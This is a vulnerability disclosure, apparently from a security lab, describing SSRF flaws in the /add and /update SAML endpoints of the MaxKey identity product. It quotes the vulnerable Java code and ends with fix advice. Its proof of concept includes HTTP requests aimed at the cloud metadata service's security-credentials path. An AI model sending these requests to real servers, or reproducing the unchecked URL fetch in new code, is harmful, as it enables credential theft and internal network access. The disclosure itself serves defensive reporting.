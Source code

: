 There are SSRF vulnerabilities in two APIs of MaxKey project

# Vulnerability Description

The open source industry-leading IAM-IDaas identity management and authentication product https://gitee.com/dromara/MaxKey has multiple SSRF vulnerabilities.

- Vulnerability Discloser: [Honor Cyber Security Lab](https://github.com/honorseclab)
- Vendors: [https://www.maxkey.top/](https://www.maxkey.top/)
- Source code address：[https://gitee.com/dromara/MaxKey](https://gitee.com/dromara/MaxKey)
- [https://gitee.com/dromara/MaxKey/issues/ICDR3E](https://gitee.com/dromara/MaxKey/issues/ICDR3E)

Note: **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

[maxkey-webs\maxkey-web-mgt\src\main\java\org\dromara\maxkey\web\apps\contorller\SAML20DetailsController.java](https://gitee.com/dromara/MaxKey/blob/main/maxkey-webs/maxkey-web-mgt/src/main/java/org/dromara/maxkey/web/apps/contorller/SAML20DetailsController.java)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
// maxkey-webs\maxkey-web-mgt\src\main\java\org\dromara\maxkey\web\apps\contorller\SAML20DetailsController.java:add
    @ResponseBody
    @RequestMapping(value={"/add"}, produces = {MediaType.APPLICATION_JSON_VALUE})
    public Message<?> add(
            @RequestBody AppsSAML20Details saml20Details,
            @CurrentUser UserInfo currentUser) {
        logger.debug("-Add  : {}" , saml20Details);
        try {
            transform(saml20Details);  //📌📌📌📌📌📌
        } catch (Exception e) {
            e.printStackTrace();
        }
        saml20Details.setInstId(currentUser.getInstId());
        saml20DetailsService.insert(saml20Details);
        if (appsService.insertApp(saml20Details)) {
            return new Message<AppsSAML20Details>(Message.SUCCESS);
        } else {
            return new Message<AppsSAML20Details>(Message.FAIL);
        }
    }

// maxkey-webs\maxkey-web-mgt\src\main\java\org\dromara\maxkey\web\apps\contorller\SAML20DetailsController.java:transform
    protected AppsSAML20Details transform(AppsSAML20Details samlDetails) throws Exception{
        super.transform(samlDetails);
        ByteArrayInputStream bArrayInputStream = null;
        if(StringUtils.isNotBlank(samlDetails.getMetaFileId())) {
            bArrayInputStream = new ByteArrayInputStream(
                    fileUploadService.get(samlDetails.getMetaFileId()).getUploaded());
            fileUploadService.delete(samlDetails.getMetaFileId());
        }
        if(StringUtils.isNotBlank(samlDetails.getFileType())){
            if(samlDetails.getFileType().equals("certificate")){//certificate file
                try {
                    if(bArrayInputStream != null) {
                        samlDetails.setTrustCert(
                                X509CertUtils.loadCertFromInputStream(bArrayInputStream));
                    }
                } catch (IOException e) {
                    logger.error("read certificate file error .", e);
                }
            }else if(samlDetails.getFileType().equals("metadata_file")){//metadata file
                if(bArrayInputStream != null) {
                    samlDetails = resolveMetaData(samlDetails,bArrayInputStream);
                }
            }else if(samlDetails.getFileType().equals("metadata_url")
                    &&StringUtils.isNotBlank(samlDetails.getMetaUrl())){//metadata url
                CloseableHttpClient httpClient = HttpClients.createDefault();
                HttpPost post = new HttpPost(samlDetails.getMetaUrl());  //📌📌📌📌📌📌
                CloseableHttpResponse response = httpClient.execute(post);   //📌📌📌📌📌📌
                samlDetails = resolveMetaData(samlDetails,response.getEntity().getContent());;
                response.close();
                httpClient.close();
            }
        } 
        ……
    }
```

It can be seen that the external API with the route "/add" receives the URL parameter "samlDetails.getMetaUrl()" passed externally, and directly initiates an http request to the target URL through "httpClient.execute(post)" without any verification and filtering, which constitutes a typical SSRF vulnerability.

A similar SSRF vulnerability is also located in another API interface of this Controller:

```java
// maxkey-webs\maxkey-web-mgt\src\main\java\org\dromara\maxkey\web\apps\contorller\SAML20DetailsController.java:update
    @ResponseBody
    @RequestMapping(value={"/update"}, produces = {MediaType.APPLICATION_JSON_VALUE})
    public Message<?> update(
            @RequestBody AppsSAML20Details saml20Details,
            @CurrentUser UserInfo currentUser) {
        logger.debug("-update  : {}" , saml20Details);
        try {
            transform(saml20Details);  //📌📌📌📌📌📌
        } catch (Exception e) {
            e.printStackTrace();
        }
        saml20Details.setInstId(currentUser.getInstId());
        saml20DetailsService.update(saml20Details);
        if (appsService.updateApp(saml20Details)) {
            return new Message<AppsSAML20Details>(Message.SUCCESS);
        } else {
            return new Message<AppsSAML20Details>(Message.FAIL);
        }
    }

// maxkey-webs\maxkey-web-mgt\src\main\java\org\dromara\maxkey\web\apps\contorller\SAML20DetailsController.java:transform
    protected AppsSAML20Details transform(AppsSAML20Details samlDetails) throws Exception{
        super.transform(samlDetails);
        ByteArrayInputStream bArrayInputStream = null;
        if(StringUtils.isNotBlank(samlDetails.getMetaFileId())) {
            bArrayInputStream = new ByteArrayInputStream(
                    fileUploadService.get(samlDetails.getMetaFileId()).getUploaded());
            fileUploadService.delete(samlDetails.getMetaFileId());
        }

        if(StringUtils.isNotBlank(samlDetails.getFileType())){
            if(samlDetails.getFileType().equals("certificate")){//certificate file
                try {
                    if(bArrayInputStream != null) {
                        samlDetails.setTrustCert(
                                X509CertUtils.loadCertFromInputStream(bArrayInputStream));
                    }
                } catch (IOException e) {
                    logger.error("read certificate file error .", e);
                }
            }else if(samlDetails.getFileType().equals("metadata_file")){//metadata file
                if(bArrayInputStream != null) {
                    samlDetails = resolveMetaData(samlDetails,bArrayInputStream);
                }
            }else if(samlDetails.getFileType().equals("metadata_url")
                    &&StringUtils.isNotBlank(samlDetails.getMetaUrl())){//metadata url
                CloseableHttpClient httpClient = HttpClients.createDefault();
                HttpPost post = new HttpPost(samlDetails.getMetaUrl());  //📌📌📌📌📌📌
                CloseableHttpResponse response = httpClient.execute(post);  //📌📌📌📌📌📌
                samlDetails = resolveMetaData(samlDetails,response.getEntity().getContent());;
                response.close();
                httpClient.close();
            }
        }
        ……
    }
```

SSRF (Server-Side Request Forgery) vulnerabilities can allow attackers to access internal systems, services, or sensitive data by exploiting the server's ability to make unauthorized external requests, potentially leading to information disclosure, unauthorized access, or further exploitation within the network.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file.

The vulnerability proof of concept (POC) is as follows:

```js
POST /apps/saml20/add HTTP/1.1
Authorization: Bearer <valid_token>
Content-Type: application/json

{
  "fileType": "metadata_url",
  "metaUrl": "http://169.254.169.254/latest/meta-data",
  "entityId": "attacker",
  "metaFileId": "",
  "instId": "default"
}

POST /apps/saml20/update HTTP/1.1
Host: target.com
Authorization: Bearer [valid_jwt]
Content-Type: application/json

{
  "fileType": "metadata_url",
  "metaUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
}
```

# Security Suggestions

To fix SSRF (Server-Side Request Forgery) vulnerabilities, validate and sanitize all user-supplied input used in HTTP requests, restrict server access to trusted internal resources by implementing proper whitelisting or IP filtering, use secure coding practices to prevent unintended outbound requests, and consider proxying external requests through a controlled intermediary with appropriate access controls.
